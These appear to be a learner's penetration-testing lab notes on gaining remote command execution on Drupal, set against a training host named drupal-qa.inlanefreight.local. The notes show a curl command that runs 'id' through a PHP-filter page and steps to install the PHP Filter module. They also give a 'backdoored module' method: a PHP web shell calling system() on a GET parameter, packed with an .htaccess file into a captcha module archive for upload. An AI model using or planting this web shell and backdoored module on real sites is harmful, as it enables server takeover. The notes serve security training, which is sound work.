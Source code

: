 `use shell`
```shell-session
$ curl -s http://drupal-qa.inlanefreight.local/node/3?dcfdd5e021a869fcc6dfaef8bf31377e=id | grep uid | cut -f4 -d">"
```
![](Pasted%20image%2020250212153544.png)
## WHEN PHP MODULE IS NOT PRESENT

From version 8 onwards, the [PHP Filter](https://www.drupal.org/project/php/releases/8.x-1.1) module is not installed by default

`install the module ourselves`
```
$ wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
```
Once downloaded go to `Administration` > `Reports` > `Available updates`.

From here, click on `Browse,` select the file from the directory we downloaded it to, and then click `Install`.

Once the module is installed, we can click on `Content` and create a new basic page, similar to how we did in the Drupal 7 example. Again, be sure to select `PHP code` from the `Text format` dropdown.

---------------------------------
##  Backdoored Module Approach

`captcha module download`
```shell-session
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```

`create webshell`
```php
<?php
system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);
?>
```

`create a .htaccess file to give ourselves access to the folder. This is necessary as Drupal denies direct access to the /modules folder.`
```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
The configuration above will apply rules for the / folder when we request a file in /modules. Copy both of these files to the captcha folder and create an archive.


`copy files and archive the folder`
```shell-session
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```

